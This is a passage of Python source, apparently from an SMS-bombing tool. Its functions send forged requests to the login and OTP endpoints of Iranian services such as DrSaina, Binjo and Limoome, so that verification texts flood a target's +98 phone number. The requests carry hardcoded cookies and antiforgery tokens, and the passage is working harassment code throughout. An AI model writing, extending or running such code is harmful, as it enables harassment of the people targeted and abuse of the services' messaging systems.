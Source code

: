     ghD = f"__RequestVerificationToken=CfDJ8NPBKm5eTodHlBQhmwjQAVUgCtuEzkxhMWwcm9NyjTpueNnMgHEElSj7_JXmfrsstx9eCNrsZ5wiuLox0OSfoEvDvJtGb7NC5z6Hz7vMEL4sBlF37_OryYWJ0CCm4gpjmJN4BxSjZ24pukCJF2AQiWg&noLayout=False&action=checkIfUserExistOrNot&lId=&codeGuid=00000000-0000-0000-0000-000000000000&PhoneNumber={'0'+phone.split('+98')[1]}&confirmCode=&fullName=&Password=&Password2="
    ghU = 'https://www.drsaina.com/RegisterLogin?ReturnUrl=%2Fconsultation'
    ghH = {'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'cache-control': 'max-age=0',
'content-type': 'application/x-www-form-urlencoded',
'cookie': '.AspNetCore.Antiforgery.ej9TcqgZHeY=CfDJ8NPBKm5eTodHlBQhmwjQAVWqg8-UO73YXzMYVhYk28IlZQexrnyEhYldxs2Ylnp3EZE2o3tccNQ0E7vRSUGVMNDfmcFOKPcUCG7sysT7unE5wui_vwzMvyCNDqIRZ1Wxd2AKD3s3lu-2BvFOXc_j7ts; anonymousId=-fmvaw07O1miRXbHtKTVT; segmentino-user={"id":"-fmvaw07O1miRXbHtKTVT","userType":"anonymous"}; _613757e830b8233caf20b7d3=true; _ga=GA1.2.1051525883.1639482327; _gid=GA1.2.2109855712.1639482327; __asc=bf42042917db8c3006a2b4dcf49; __auc=bf42042917db8c3006a2b4dcf49; analytics_token=a93f2bb1-30d0-4e99-18cc-b84fcda27ae9; yektanet_session_last_activity=12/14/2021; _yngt_iframe=1; _gat_UA-126198313-1=1; analytics_campaign={%22source%22:%22google%22%2C%22medium%22:%22cpc%22%2C%22campaign%22:%22adwords%22%2C%22content%22:%22adwords%22}; analytics_session_token=efcee442-344d-1374-71b8-60ca960029c9; _yngt=d628b56e-eef52-280a4-4afe0-012e33e23ce9b; _gac_UA-126198313-1=1.1639482345.EAIaIQobChMImrmRrJvj9AIV2ZTVCh07_gUpEAAYASAAEgILoPD_BwE; cache_events=true',
'origin': 'https://www.drsaina.com',
'referer': 'https://www.drsaina.com/RegisterLogin?ReturnUrl=%2Fconsultation',
'upgrade-insecure-requests': '1',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 OPR/82.0.4227.23'}
    try:
        ok = post(timeout=5, url=ghU, headers=ghH, data=ghD).text
        if 'کد تایید 6 رقمی پیامک شده به شماره' in ok:
            print(f'{g}(DrSaina) {w}Code Was Sent')
            return True
    except:
        pass
def binjo(phone):
    ghU = f"https://api.binjo.ir/api/panel/get_code/{'0'+phone.split('+98')[1]}"
    ghH = {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
'Accept-Encoding': 'gzip, deflate, br',
'Accept-Language': 'en-US,en;q=0.9',
'Cache-Control': 'max-age=0',
'Connection': 'keep-alive',
'Cache-Control': 'no-cache, private',
'Content-Encoding': 'gzip',
'Content-Type': 'application/json',
'Cookie': 'laravel_session=eyJpdiI6InY0T2JYTndZb0xacURzcXFtWWxORHc9PSIsInZhbHVlIjoiUmo1bVd0UklmdjJyc1wvZGNHVDRuRU96RVZVZFhpb1N4ZmJ3NkduUGJYMGhyRG42QVNwVUNHVlZZRUNqV0hjUysiLCJtYWMiOiIzNTBlOWIzOTkxMDYyM2EzNzViYWFhYjdkM2FlNjQ1YmZjOTU3NzNiMjRlYjNlMmZiZmQzOGRkZTI0Yzc0NTU1In0%3D',
'Host': 'api.binjo.ir',
'Upgrade-Insecure-Requests': '1',
'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36 OPR/82.0.4227.23'}
    try:
        ok = get(timeout=5, url=ghU, headers=ghH, verify=False).json()
        if ok['status'] == 'ok':
            print(f'{g}(BinJo) {w}Code Was Sent')
            return True
    except:
        pass
def limome(phone):
    liD = {'mobileNumber': phone.split('+98')[1],
'country': '1'}
    liU = 'https://my.limoome.com/api/auth/login/otp'
    liH = {'Accept': 'application/json, text/javascript, */*; q=0.01',
'Accept-Encoding': 'gzip, deflate, br',